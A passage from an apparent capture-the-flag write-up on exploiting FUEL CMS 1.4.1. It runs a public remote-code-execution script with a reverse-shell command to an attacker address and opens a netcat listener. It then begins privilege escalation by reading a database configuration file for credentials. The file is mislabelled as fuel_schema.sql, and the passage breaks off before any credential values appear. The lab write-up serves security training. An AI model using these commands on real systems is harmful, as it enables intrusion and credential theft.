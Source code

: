 - The source of this script can be found [here](https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated). 
- Using the following syntax, I was able to get a shell on the box:
```
python shell.py http://target-ip attacking-ip 8888
```

- On host for reverse shell:
```
nc -lnvp 8888
```

- Now that we have system access, we can grab the user flag.

## Privilege Escalation
- Back on the home page that we first discovered, we can see that there are some instructions regarding configuration. Specifically:
	- "Install the FUEL CMS database by first creating the database in MySQL and then importing the `fuel/install/fuel_schema.sql` file. After creating the database, change the database configuration found in `fuel/application/config/database.php` to include your hostname (e.g. localhost), username, password and the database to match the new database you created."
- We can check out the `/fuel/install/fuel_schema.sql` file and see if there are any relevant credentials. The contents of that file are:
```php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|	['dsn']      The full DSN string describe a connection to the database.
|	['hostname'] The hostname of your database server.
|	['username'] The username used to connect to the database
|	['password'] The password used to connect to the database
|	['database'] The name of the database you want to connect to
|	['dbdriver'] The database driver. e.g.: mysqli.
|			Currently supported:
|				 cubrid, ibase, mssql, mysql, mysqli, oci8,
|				 odbc, pdo, postgre, sqlite, sqlite3, sqlsrv
|	['dbprefix'] You can add an optional prefix, which will be added
|				 to the table name when using the  Query Builder class
|	['pconnect'] TRUE/FALSE - Whether to use a persistent connection
|	['db_debug'] TRUE/FALSE - Whether database errors should be displayed.
|	['cache_on'] TRUE/FALSE - Enables/disables query caching
|	['cachedir'] The path to the folder where cache files should be stored
|	['char_set'] The character set used in communicating with the database
|	['dbcollat'] The character collation used in communicating with the database
|				 NOTE: For MySQL and MySQLi databases, this setting is only used
| 				 as a backup if your server is running PHP < 5.2.3 or MySQL < 5.0.7
|				 (and in table creation queries made with DB Forge).
| 				 There is an incompatibility in PHP with mysql_real_escape_string() which
| 				 can make your site vulnerable to SQL injection if you are using a
| 				 multi-byte character set and are running versions lower than these.
| 				 Sites using Latin-1 or UTF-8 database character set and collation are unaffected.
|	['swap_pre'] A default table prefix that should be swapped with the dbprefix
|	['encrypt']  Whether or not to use an encrypted connection.
```
